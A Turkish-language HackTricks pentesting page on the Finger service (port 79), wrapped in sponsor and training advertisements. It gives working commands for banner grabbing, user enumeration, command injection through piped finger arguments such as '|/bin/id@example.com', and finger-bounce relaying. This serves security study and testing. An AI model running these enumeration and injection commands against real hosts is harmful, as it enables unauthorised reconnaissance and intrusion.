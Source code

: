 # 79 - Pentesting Finger

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Zafiyet değerlendirmesi ve penetrasyon testi için anında kullanılabilir kurulum**. Recon'dan raporlamaya kadar 20'den fazla araç ve özellik ile her yerden tam bir pentest gerçekleştirin. Pentester'ları değiştirmiyoruz - onlara daha derinlemesine araştırma yapmaları, shell'leri patlatmaları ve eğlenmeleri için biraz zaman kazandırmak amacıyla özel araçlar, tespit ve istismar modülleri geliştiriyoruz.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **Temel Bilgiler**

**Finger** programı/hizmeti, bilgisayar kullanıcıları hakkında detaylar almak için kullanılır. Genellikle sağlanan bilgiler **kullanıcının giriş adı, tam adı** ve bazı durumlarda ek detayları içerir. Bu ek detaylar, ofis konumu ve telefon numarasını (varsa), kullanıcının giriş yaptığı zamanı, hareketsizlik süresini (boşta kalma süresi), kullanıcının en son okuduğu e-posta zamanını ve kullanıcının plan ve proje dosyalarının içeriğini kapsayabilir.

**Varsayılan port:** 79
```
PORT   STATE SERVICE
79/tcp open  finger
```
## **Numaralandırma**

### **Afiş Yakalama/Temel Bağlantı**
```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```
### **Kullanıcı numaralandırma**
```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```
Alternatif olarak, [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum) sitesinden **finger-user-enum** kullanabilirsiniz, bazı örnekler:
```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```
#### **Nmap, varsayılan betikleri kullanarak bir betik çalıştırır**

### Metasploit, Nmap'tan daha fazla hile kullanır
```
use auxiliary/scanner/finger/finger_users
```
### Shodan

* `port:79 USER`

## Komut yürütme
```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```
## Finger Bounce

[Bir sistemi finger relay olarak kullanın](https://securiteam.com/exploits/2BUQ2RFQ0I/)
```
finger user@host@victim
finger @internal@external
```
<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Zafiyet değerlendirmesi ve penetrasyon testi için anında kullanılabilir kurulum**. Recon'dan raporlamaya kadar 20'den fazla araç ve özellik ile her yerden tam bir pentest gerçekleştirin. Pentester'ların yerini almıyoruz - onlara daha derinlemesine araştırma yapmaları, shell'leri patlatmaları ve eğlenmeleri için biraz zaman kazandırmak amacıyla özel araçlar, tespit ve istismar modülleri geliştiriyoruz.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
